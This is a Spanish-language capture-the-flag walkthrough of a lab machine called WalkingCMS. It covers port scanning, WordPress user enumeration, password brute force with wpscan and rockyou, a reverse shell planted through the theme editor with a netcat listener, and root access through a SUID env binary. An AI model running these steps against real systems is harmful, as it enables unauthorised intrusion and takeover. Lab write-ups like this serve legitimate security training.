 ```yaml
---
description: >-
  ✍️ Autor: El Pingüino de Mario🔍 Dificultad: Fácil  📅 Fecha de creación:
  09/04/2024
---
```


# WalkingCMS

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (807).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (17) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 80** perteneciente al **servicio HTTP** está abierto por lo que a continuación se indagará más.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p80 -v 172.17.0.2
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web sea la de por defecto de **Apache**.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ahora buscaremos directorios con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos ver hay un directorio **WordPress** por lo que indagamos en él.

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vamos a enumerar que usuarios y plugins hay.

```bash
wpscan --url http://172.17.0.2/wordpress/ --enumerate u,vp
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Realizamos fuerza bruta a través de la misma herramienta.

```bash
wpscan --url http://172.17.0.2/wordpress/ --passwords /usr/share/wordlists/rockyou.txt --usernames mario
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos logueamos con esas credenciales.

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### &#x20;🚀 **EXPLOTACIÓN**

Estamos dentro vamos a la sección de **Apariencia** en concreto **Theme Code Editor** para subir la [**Reverse Shell**](https://www.revshells.com/).

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos ponemos en escucha.

```bash
nc -lvnp 443
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Hacemos el [tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/) para trabajar más cómodos.

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar. No tenemos permisos **SUDO**.

Miramos los directorios que tenemos permisos **SUID**

```bash
find / -perm -4000 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

El directorio `/env` nos llama la atención lo explotamos para escalar privilegios a través de esta [página](https://gtfobins.github.io/gtfobins/env/).

```bash
/usr/bin/env /bin/sh -p
```

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
